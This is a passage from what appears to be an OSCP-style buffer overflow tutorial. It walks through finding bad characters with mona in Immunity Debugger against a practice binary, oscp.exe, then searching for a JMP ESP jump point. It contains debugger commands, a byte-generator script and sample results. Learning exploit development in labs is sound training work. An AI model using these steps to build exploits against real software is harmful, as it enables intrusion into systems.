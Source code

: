 * Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

```bat
!mona bytearray -b "\x00"
```

* Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```py
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

* Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:

```bat
ESP: 0x0188FA30
```

```bat
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
rem !mona compare -f C:\mona\oscp\bytearray.bin -a 0x0188fa30
```

```bat
# Address=0x0188fa30
# BadChars=00 07 08 2e 2f a0 a1
```

* A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

* Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

* The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

* Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

### __Finding a Jump Point__

* With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```bat
!mona jmp -r esp -cpb "\x00"
```

